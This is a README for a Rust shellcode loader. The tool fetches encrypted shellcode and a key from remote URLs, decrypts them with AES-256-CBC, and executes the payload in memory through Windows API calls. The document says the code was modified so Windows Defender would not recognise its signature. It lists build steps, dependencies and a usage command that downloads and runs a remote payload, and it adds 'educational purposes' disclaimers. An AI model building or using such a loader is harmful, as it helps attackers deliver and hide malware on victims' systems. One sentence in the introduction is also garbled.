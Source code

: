 # AES-256-CBC Shellcode Decryptor and Executor in Rust

This project was inspired by and builds upon concepts from the video *["Getting Started with Rust - Bypass Windows Defender"](https://www.youtube.com/watch?v=o8af1KeMrRc&list=PLRlFYFaJSu7J5e0Jxz2kyzOWeRi4NJyHD&index=85)* by **[Gemini Cyber Security](https://www.youtube.com/@gemini_security)**. However, if Windows Defender flagged their tool's signature, the code was modified to ensure it does not share the same signature while maintaining its core functionality. **[Gemini Cyber Security](https://www.youtube.com/@gemini_security)**. Credit goes to them for providing an excellent introduction to Rust programming that helped shape this tool.

> **Note:** This tool is intended for educational and security research purposes only. Use responsibly and in compliance with applicable laws.

## Features
- **AES-256-CBC Decryption**: Decrypts shellcode using the AES-256 algorithm in CBC mode.
- **Remote File Fetching**: Retrieves encrypted shellcode and keys from HTTP URLs using `reqwest`.
- **In-Memory Execution**: Allocates memory and executes decrypted shellcode via Windows API calls (`VirtualAlloc`, `VirtualProtect`, `CreateThread`).
- **Zero-Initialized IV**: Uses a static IV for simplicity (not recommended for production use).

## Prerequisites
### 1. Rust Installation
Ensure Rust is installed. If needed, install it via Rustup:

```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### 2. Windows OS
This project utilizes Windows-specific APIs (`windows-sys`) and is not compatible with other operating systems.

### 3. Internet Access
Required to fetch encrypted shellcode and key from provided URLs.

## Building the Project
### 1. Clone the Repository
```sh
git clone <repository_url>
cd <repository_name>
```

### 2. Install Dependencies
Ensure your `Cargo.toml` includes the following dependencies:

```toml
[dependencies]
aes = "0.8"
block-modes = "0.8"
pbkdf2 = "0.12"
sha2 = "0.10"
hex = "0.4"
hmac = "0.12"
reqwest = { version = "0.11", features = ["blocking"] }
windows-sys = { version = "0.52", features = ["Win32_Foundation", "Win32_System_Memory", "Win32_System_Threading"] }
```

Then, build the project in release mode:

```sh
cargo build --release
```

The compiled binary will be located in the `target/release` directory.

## Usage
Run the application with the following command, providing URLs to the encrypted shellcode and the encryption key:

```sh
./target/release/rust -exec <shellcode_url> <key_url>
```

### Example:
```sh
./target/release/rust -exec http://example.com/encrypted_shellcode http://example.com/key
```

This will:
1. Fetch the encrypted shellcode and key from the specified URLs.
2. Decrypt the shellcode using AES-256-CBC with a zero-initialized IV.
3. Allocate executable memory, copy the decrypted shellcode, and execute it as a new thread.

If successful, the program will output:
```
Decryption and execution succeeded.
```

## Security Considerations
- **Static IV**: The IV is set to zero, which compromises security by making the encryption predictable. For real-world use, a cryptographically secure random IV should be used.
- **Key Management**: The key is fetched remotely but not validated. Ensure the key source is trusted and secure.
- **Shellcode Execution**: Executing arbitrary code in memory can be dangerous and should only be done in controlled environments.
- **Error Handling**: Basic error reporting is implemented, but robust error handling should be added for production use.

## Credits
This project was inspired by *[Gemini Cyber Security](https://www.youtube.com/@gemini_security)* and their video *"Getting Started with Rust - Bypass Windows Defender"*. Special thanks to them for their educational content that helped guide this development.

## License
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

## Disclaimer
This tool is for educational and research purposes only. The author is not responsible for any misuse or damage caused by this software. Use it at your own risk and ensure compliance with all relevant laws and regulations.

